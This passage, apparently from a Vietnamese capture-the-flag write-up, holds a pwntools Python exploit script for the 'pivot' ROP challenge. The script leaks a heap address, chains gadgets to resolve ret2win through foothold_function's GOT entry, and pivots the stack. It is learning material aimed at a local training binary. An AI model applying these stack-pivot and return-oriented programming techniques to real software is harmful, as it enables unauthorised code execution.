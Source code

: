 Kết hợp 2 payload

```text-x-python
from pwn import *
import re

context.update(arch='amd64', os='linux')

p = process('./pivot')
# gdb.attach(p,'''
# break *pwnme
# ''')

line1 = p.recvuntil(b'>')
print(line1)
heap_addr = int(re.search('pivot: (0x\w+)', line1.decode()).group(1), 16)
print("Found heap address: {:02x}".format(heap_addr))

lib_foothold_addrs = 0x0000096a # 10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
lib_ret2win_addrs = 0x00000a81 # 18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

payload1 = p64(0x400720) #8   0x00400720 GLOBAL FUNC       foothold_function
payload1 += p64(0x4009bb) # 0x00000000004009bb: pop rax; ret;
payload1 += p64(0x601040) # 6: sym.imp.foothold_function (); 0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726;
payload1 += p64(0x4009c0) # 0x00000000004009c0: mov rax, qword ptr [rax]; ret;
payload1 += p64(0x4007c8) # 0x00000000004007c8: pop rbp; ret;
payload1 += p64(lib_ret2win_addrs-lib_foothold_addrs) #offset
payload1 += p64(0x4009c4) # 0x00000000004009c4: add rax, rbp; ret; 
payload1 += p64(0x4006b0) # 0x00000000004006b0: call rax;
p.sendline(payload1)

line2 = p.recvuntil(b'>')
print(line2)

payload2 = b'A'*40
payload2 += p64(0x4009bb) #0x00000000004009bb: pop rax; ret;
payload2 += p64(heap_addr)
payload2 += p64(0x4009bd) # 0x00000000004009bd: xchg rax, rsp; ret;
p.sendline(payload2)

line3 = p.recvuntil('libpivot')
print(line3)

# leak_foothold_got = p.recv(8)
# print(leak_foothold_got.hex())

print(p.recvall())

# p.interactive()
```
